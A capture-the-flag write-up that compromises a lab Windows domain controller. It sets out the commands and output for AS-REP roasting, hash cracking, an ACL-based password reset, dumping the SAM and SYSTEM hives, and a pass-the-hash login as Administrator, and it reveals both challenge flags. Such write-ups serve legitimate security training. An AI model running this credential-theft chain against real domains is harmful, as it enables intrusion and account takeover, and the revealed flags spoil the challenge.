



# Kapal Bocor

> Category: Boot2Root ⚔️ 
>
> Created by: mfkrypt




## 🔗 Overview

_Scanning showed a domain controller for <code>bahtera.corp</code> with **Kerberos, LDAP, SMB, and WinRM**. User enumeration found <code>lc.wei</code> vulnerable to **AS-REP roasting**, and the cracked hash gave domain access. From there, **misconfigured ACL** allowed resetting <code>svc_backup</code> password, which was in **Remote Management Users** and could log in with **WinRM**. That account had <code>SeBackupPrivilege</code>, enabling dumping of <code>SAM</code> and <code>SYSTEM</code> hives to extract the **Administrator hash**, which was used with **pass-the-hash** to get **Administrator**._

**⚡ Attack Path:**

**AS-REP roast** <code>lc.wei</code> → **abuse ACL** to reset <code>svc_backup</code> password → **WinRM login** with <code>SeBackupPrivilege</code> → **dump <code>SAM</code> hashes** → **pass-the-hash** as **Administrator** → read <code>root.txt</code>.


## 🔍 Reconnaisance & Scanning

First of all let's start with Nmap:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ nmap -sVSC 192.168.211.142 -T4 -Pn -n -vvv -oA kapalbocorscan
Nmap scan report for 192.168.211.142
Host is up, received arp-response (0.00086s latency).
Scanned at 2025-08-30 03:02:57 +08 for 58s
Not shown: 984 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 128 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 128 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 403 - Forbidden: Access is denied.
88/tcp   open  kerberos-sec  syn-ack ttl 128 Microsoft Windows Kerberos (server time: 2025-08-29 19:03:18Z)
135/tcp  open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 128 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: bahtera.corp0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      syn-ack ttl 128 Microsoft IIS httpd 10.0
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=DC01.bahtera.corp
| Subject Alternative Name: DNS:DC01.bahtera.corp
| Issuer: commonName=DC01.bahtera.corp
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-09T00:11:36
| Not valid after:  2026-07-08T00:00:00
| MD5:   4572:a88f:f75d:f5c4:78b6:1e2f:7a75:3bdd
| SHA-1: 8bc4:1c97:afda:a0fb:10f7:d770:ea06:e93b:0fe3:c070
| -----BEGIN CERTIFICATE-----
| MIIDBDCCAeygAwIBAgIQO+fKI1CdgJ5G/V2bFs3gLTANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFEQzAxLmJhaHRlcmEuY29ycDAeFw0yNTA3MDkwMDExMzZaFw0y
| NjA3MDgwMDAwMDBaMBwxGjAYBgNVBAMTEURDMDEuYmFodGVyYS5jb3JwMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3KL6AzxZUUwFcc4OO5mOED8VIFgd
| 4ujEDkfSulChqp11b4VnYDYgFdFqhfEwjMX9IKRq4lfXX2dDOfsk/GS9kpo9u7hm
| Bghm6OhlukwHT1uhMs+sG1vF85vVk04eGSpcl1uVihG1Ntu4cx0PBhbzZ9tW9t3b
| 6rvSTIlIEbq3ksAanp+JxXrE0gyBiuCMEpffIjuefFncvwDv6Ox10yLxrxOG5taE
| fkyM5jhIUv6zwkNuv56RT4QJ91aeowQTwVo+TQdSgwIl4eYnlvUhQH0psEeRn+cx
| tRZ4Y/V/oFQIcq8rgZSakEXQsZ7zqV2XJbO2NYniJR89AzxJf14bqs9wLQIDAQAB
| o0IwQDALBgNVHQ8EBAMCBLAwEwYDVR0lBAwwCgYIKwYBBQUHAwEwHAYDVR0RBBUw
| E4IRREMwMS5iYWh0ZXJhLmNvcnAwDQYJKoZIhvcNAQELBQADggEBAArc8PnsYt3k
| 5WrO5tR27FxW3go/VFfZZFXBwGKxCdys6hihfnR3zFiJk4doDgQnz+gPT6amPUtE
| 54f3GJIXuYsrFjbNB8iPlDnXqw+0A/Yn0LBJ/T0I3ZZphTzeAR6gjYhJBWzgmSFf
| 39kf+l0mdlmGSW11F4VBSZEAY3tnrPQPRqkrOK/TDfFNlKXl/Wa8UEtCo6ALaY8J
| Y47ALaIAkqxtWz/j6r80XPj2OknXvGmM8iBsMp7hNDpUrnGHKIdUdyFrNv79l1ox
| K1AO9Fj8GV55tsEEL7fqSpgyTPwsBcTgVhjm7/XhF/+49hfNs6YN340nDyRR0dC7
| +PzCsviBeI0=
|_-----END CERTIFICATE-----
|_http-title: IIS Windows Server
| tls-alpn: 
|_  http/1.1
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
445/tcp  open  microsoft-ds? syn-ack ttl 128
464/tcp  open  kpasswd5?     syn-ack ttl 128
593/tcp  open  ncacn_http    syn-ack ttl 128 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 128
3268/tcp open  ldap          syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: bahtera.corp0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 128
5985/tcp open  http          syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp open  http          syn-ack ttl 128 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 403 - Forbidden: Access is denied.
8443/tcp open  ssl/http      syn-ack ttl 128 Microsoft IIS httpd 10.0
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.bahtera.corp
| Subject Alternative Name: DNS:DC01.bahtera.corp
| Issuer: commonName=DC01.bahtera.corp
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-07-09T00:11:36
| Not valid after:  2026-07-08T00:00:00
| MD5:   4572:a88f:f75d:f5c4:78b6:1e2f:7a75:3bdd
| SHA-1: 8bc4:1c97:afda:a0fb:10f7:d770:ea06:e93b:0fe3:c070
| -----BEGIN CERTIFICATE-----
| MIIDBDCCAeygAwIBAgIQO+fKI1CdgJ5G/V2bFs3gLTANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFEQzAxLmJhaHRlcmEuY29ycDAeFw0yNTA3MDkwMDExMzZaFw0y
| NjA3MDgwMDAwMDBaMBwxGjAYBgNVBAMTEURDMDEuYmFodGVyYS5jb3JwMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3KL6AzxZUUwFcc4OO5mOED8VIFgd
| 4ujEDkfSulChqp11b4VnYDYgFdFqhfEwjMX9IKRq4lfXX2dDOfsk/GS9kpo9u7hm
| Bghm6OhlukwHT1uhMs+sG1vF85vVk04eGSpcl1uVihG1Ntu4cx0PBhbzZ9tW9t3b
| 6rvSTIlIEbq3ksAanp+JxXrE0gyBiuCMEpffIjuefFncvwDv6Ox10yLxrxOG5taE
| fkyM5jhIUv6zwkNuv56RT4QJ91aeowQTwVo+TQdSgwIl4eYnlvUhQH0psEeRn+cx
| tRZ4Y/V/oFQIcq8rgZSakEXQsZ7zqV2XJbO2NYniJR89AzxJf14bqs9wLQIDAQAB
| o0IwQDALBgNVHQ8EBAMCBLAwEwYDVR0lBAwwCgYIKwYBBQUHAwEwHAYDVR0RBBUw
| E4IRREMwMS5iYWh0ZXJhLmNvcnAwDQYJKoZIhvcNAQELBQADggEBAArc8PnsYt3k
| 5WrO5tR27FxW3go/VFfZZFXBwGKxCdys6hihfnR3zFiJk4doDgQnz+gPT6amPUtE
| 54f3GJIXuYsrFjbNB8iPlDnXqw+0A/Yn0LBJ/T0I3ZZphTzeAR6gjYhJBWzgmSFf
| 39kf+l0mdlmGSW11F4VBSZEAY3tnrPQPRqkrOK/TDfFNlKXl/Wa8UEtCo6ALaY8J
| Y47ALaIAkqxtWz/j6r80XPj2OknXvGmM8iBsMp7hNDpUrnGHKIdUdyFrNv79l1ox
| K1AO9Fj8GV55tsEEL7fqSpgyTPwsBcTgVhjm7/XhF/+49hfNs6YN340nDyRR0dC7
| +PzCsviBeI0=
|_-----END CERTIFICATE-----
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| tls-alpn: 
|_  http/1.1
|_http-title: IIS Windows Server
MAC Address: 00:0C:29:1E:DC:2F (VMware)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 10s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 23154/tcp): CLEAN (Timeout)
|   Check 2 (port 28287/tcp): CLEAN (Timeout)
|   Check 3 (port 51462/udp): CLEAN (Timeout)
|   Check 4 (port 31087/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:1e:dc:2f (VMware)
| Names:
|   DC01<00>             Flags: <unique><active>
|   BAHTERA<00>          Flags: <group><active>
|   BAHTERA<1c>          Flags: <group><active>
|   DC01<20>             Flags: <unique><active>
|   BAHTERA<1b>          Flags: <unique><active>
| Statistics:
|   00:0c:29:1e:dc:2f:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-08-29T19:03:25
|_  start_date: N/A

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From Nmap scans, it reveals many port open such as the **SMB port, Kerberos Port, LDAP port** and much more.

Try to connect via <code>SMB</code> with **anonymous access** to enumerate the content inside it. Found out, there is a <code>.pdf</code> file. Retrieve the file:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ smbclient -L //192.168.211.142/ -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Aug 11 22:13:36 2025
  ..                                DHS        0  Wed Jul  9 08:15:22 2025
  surat-rasmi.pdf                     A   112565  Mon Aug 11 22:13:36 2025

                7699711 blocks of size 4096. 4864530 blocks available
smb: \> get surat-rasmi.pdf 
```

View the content of the <code>surat-rasmi.pdf</code> file:



## ⚔️ Exploitation

Based on the usernames in the <code>surat-rasmi.pdf</code> file, we can try to get the hash of the users by **AS-REP Roasting** attacks and save it into <code>asrep.hashes</code> to crack it later:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ python3 /opt/impacket/examples/GetNPUsers.py bahtera.corp/ -usersfile users.txt -format hashcat -outputfile asrep.hashes -dc-ip 192.168.211.142
Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

[-] User zahra.zainal doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User suresh.maniam doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$lc.wei@BAHTERA.CORP:3cd687d7a32400a12dba6467cebc46b1$ffded0096b52ab70d95d2c5cc753dd69068bced0564200a513333e899327ea229ca8cc7ef8577df0efba9727c4d86664d6a2f6cf6ab752e3ccbc214ae65054f225d84a17d3cc7982dd6f030b7d53e1adbab92d4adbb88c6bfda1a6a0bf4d928598a18db0b736aac71b856274c80e7fe65a60a55a0ab7cdc42db1ad0e14af0a7f5df235edd99c5f38ada0cd67313ebb6332d3771a3033b8a785c1297e09a5662ef73e3cb8a89ce81a6fa397637585a8e1835a9dfe471ae01cec6e5d3f37d7b12463c1124f18514df0b88ad9194980dc2c40cc68f8925c1f5c50e938b8401ddeb872b38d06854d2ac0aa46f4bc
[-] User nurhani.norazman doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Then, **crack the hash** that we have found:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ hashcat -m 18200 -a 0 asrep.hashes /usr/share/wordlists/rockyou.txt --force
.
.
.
$krb5asrep$23$lc.wei@BAHTERA.CORP:d08399cdafa2ebbfb8abcf3993ccc5e3$2d7e94d473b60ba26ad9a4900b7b6b5ac5158b7005130716165dcac6668b3d4885b8bdb7543055b826e3777c2d04495e90ac4ff13c871d0d37037a033e715039696914dbf8cea7a119159f3038cdd951952d710402803eeaf7feb3ea63663db3866ccbc1e79f70c3801753e2c0d7dfe10453c3966b60540457a5c30c6fcd4511d7f094832402715200e345170cebe33c5981f4f553fc864b4c26e54be531335d7087ac6b49c1e40b7d6f41ac922349b1c028de3c7bedcd0f503eb2913d34f4555bf8b7c63d142b5764e3f0afce0cf5c087e082cd23ab709210d4570d94cc0dd9ed1b7e9450a68f13a60dab28:I_am_the_one
.
.
.
```

After we got the user <code>lc.wei</code> credentials, we can try to **enumerate more users from the domain** by running the command:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ python3 /opt/impacket/examples/GetADUsers.py bahtera.corp/lc.wei:'I_am_the_one' -dc-ip 192.168.211.142 -all
Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

[*] Querying 192.168.211.142 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2025-07-09 06:38:48.038803  2025-08-11 22:13:23.075938 
Guest                                                 <never>              <never>             
krbtgt                                                2025-07-09 06:55:43.247947  <never>             
nurhani.norazman                                      2025-07-09 07:38:15.934957  <never>             
zahra.zainal                                          2025-07-09 07:39:24.934799  <never>             
suresh.maniam                                         2025-07-09 07:40:35.443007  <never>             
lc.wei                                                2025-07-09 07:50:48.525916  2025-08-31 16:01:52.600789 
tc.wei                                                2025-07-09 07:52:13.255693  <never>             
syafiq.kyle                                           2025-07-09 07:53:12.003636  <never>             
svc_backup                                            2025-08-31 16:32:43.197834  2025-08-31 16:33:07.870012 
```

Then, we can try to use the <code>ldapdomaindump</code> command to get more information:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ ldapdomaindump ldap://192.168.211.142 -u 'BAHTERA.CORP\lc.wei' -p 'I_am_the_one'
```

In <code>domain_users.html</code>:
```html
<tr><td>svc backup</td><td>svc backup</td><td>svc_backup</td><td><a href="domain_users_by_group.html#cn_Remote_Management_Users" title="CN=Remote Management Users,CN=Builtin,DC=bahtera,DC=corp">Remote Management Users</a></td><td><a href="domain_users_by_group.html#cn_Domain_Users" title="CN=Domain Users,CN=Users,DC=bahtera,DC=corp">Domain Users</a></td><td>07/09/25 01:40:15</td><td>08/11/25 14:19:20</td><td>07/09/25 06:35:30</td><td>NORMAL_ACCOUNT, DONT_EXPIRE_PASSWD</td><td>08/11/25 14:19:20</td><td><abbr title="S-1-5-21-328874485-916303621-2090111871-1113">1113</abbr></td><td>&nbsp;</td></tr>
```

We can see here that the <code>svc_backup</code> user is the only user able to do **Remote Management** among other normal user.

I also use the <code>Bloodhound</code> to ease up the work in **viewing the relationship between the users in the domain**. We need to run the command before we can map the relationships in <code>Bloodhound GUI</code>:
```
bloodhound-python -u lc.wei -p 'I_am_the_one' -d bahtera.corp -dc DC01.bahtera.corp -c All --dns-tcp -ns 192.168.211.142
```

Then, upload all the <code>.json</code> files created into the <code>Bloodhound GUI</code> to check the relationship between user <code>lc.wei</code> and user <code>svc_backup</code>:



From here, we know that user <code>lc.wei</code> is able to **force change the password** of user <code>svc_backup</code>. So, the plan here is to change the password of user <code>svc_backup</code>, then connect to the server via <code>evil-winrm</code> using the new <code>svc_backup</code> credentials.

Change the <code>svc_backup</code> password via <code>rpcclient</code>:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ rpcclient -U "bahtera.corp/lc.wei%I_am_the_one" 192.168.211.142

rpcclient $> setuserinfo2 svc_backup 23 'NewP@ssw0rd!'
rpcclient $> exit
```

We can try to verify if we successfully changed the <code>svc_backup</code> password:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ crackmapexec winrm 192.168.211.142 -u svc_backup -p 'NewP@ssw0rd!'
SMB         192.168.211.142 5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:bahtera.corp)
HTTP        192.168.211.142 5985   DC01             [*] http://192.168.211.142:5985/wsman
WINRM       192.168.211.142 5985   DC01             [+] bahtera.corp\svc_backup:NewP@ssw0rd! (Pwn3d!)
```

Then, we can connect to the server via <code>evil-winrm</code>:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ evil-winrm -i 192.168.211.142 -u svc_backup -p 'NewP@ssw0rd!'

                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

Nice, now search for the <code>user.txt</code> to get the flag:
```
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> dir


    Directory: C:\Users\svc_backup\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         8/11/2025   6:32 AM             38 user.txt


*Evil-WinRM* PS C:\Users\svc_backup\Desktop> type user.txt
```

<details><summary><b>🏳️user.txt</b></summary><b>3108{pr3_auth_di54bl3d_r4puh_int3rnal}</b></details>


## 💀 Priviliege Escalation

Let's try to check the privilege of the current user <code>svc_backup</code>:
```
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We know that the current user <code>svc_backup</code> has the <code>SeBackupPrivilege</code> enabled. This means that we have the access to any file. However, we do not have the direct read access as user <code>Administrator</code> yet. We can try to dump the <code>SAM</code> and <code>SYSTEM</code> to get the some information. Retrieve the files first:
```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save HKLM\SAM C:\Users\svc_backup\Documents\sam.hive
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save HKLM\SYSTEM C:\Users\svc_backup\Documents\system.hive
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> download sam.hive
                                        
Info: Downloading C:\Users\svc_backup\Documents\sam.hive to sam.hive
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\svc_backup\Documents> download system.hive
                                        
Info: Downloading C:\Users\svc_backup\Documents\system.hive to system.hive
                                        
Info: Download successful!
```

Now, we can try to dump the hash inside the <code>SAM + SYSTEM</code> file locally:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ python3 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xd6e0355499ccd00a0ce39c1212a7805f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dd7a157c6ffe3072305e9eb326ae37d5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```

Nice! Now we can connect to the server via <code>evil-winrm</code> with the **<code>Administrator</code>'s NTLM (NT) hash**:
```
┌──(kali㉿kali)-[~/upload]
└─$ evil-winrm -i 192.168.211.142 -u 'Administrator' -H 'dd7a157c6ffe3072305e9eb326ae37d5'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

<details><summary><b>🏳️root.txt</b></summary><b>3108{m15c0nf1gu73d_4CL_k3_b4CkUP_k3_D0m4in_4DM1N}</b></details>


## 📚 References:

- https://www.hackingarticles.in/active-directory-penetration-testing-using-impacket/
